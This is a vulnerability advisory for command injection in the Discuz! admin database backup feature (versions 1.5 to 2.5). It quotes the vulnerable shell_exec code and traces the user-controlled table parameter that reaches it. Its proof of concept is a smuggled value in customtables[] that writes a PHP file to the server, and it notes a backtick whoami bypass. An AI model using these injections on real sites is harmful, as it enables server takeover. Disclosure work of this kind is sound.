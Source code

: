 ## Discuz backend getshell

### Description
The database backup feature in
source/admincp/admincp_db.php in Discuz! 1.5 to 2.5
allows remote attackers to execute arbitrary PHP code.

### VulnerabilityType Other
Code Execution

### Vendor of Product
Tencent

### Affected Product Code Base
Discuz - 1.5 - 2.5

### Affected Component
affected source code file

### Attack Type
Remote

### Impact Code execution
true

### Attack Vectors
Attacker need login backend

### Has vendor confirmed or acknowledged the vulnerability?
true

### Discoverer
MitAh @ Chaitin Tech

### Detail
Take DiscuzX2.5 for example

source/admincp/admincp_db.php

```php
# line 296
@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```

```php
# line 281
$tablesstr = '';
foreach($tables as $table) {
	$tablesstr .= '"'.$table.'" ';
}
```

```php
# line 143
$tables = & $_GET['customtables'];
```

We can easily control the arg `$tablesstr` in function `shell_exec()` to execute code.

### POC 

![](http://oyaf7gkg5.bkt.clouddn.com/discuz1.png)



![](http://oyaf7gkg5.bkt.clouddn.com/discuz2.png)



![](http://oyaf7gkg5.bkt.clouddn.com/discuz3.png)



change `customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #`



![](http://oyaf7gkg5.bkt.clouddn.com/discuz4.png)



![](http://oyaf7gkg5.bkt.clouddn.com/discuz5.png)

### Additional Information

#### Discuz - 1.5 - 2.0

`$tables = $_G['gp_customtables']`

use `addslashes()` to escape, but it still works by \`whoami\`

#### Discuz - 3.0 - 3.4

Developers wrote a bug, database backup feature doesn't work. 
However, the vunl still there.
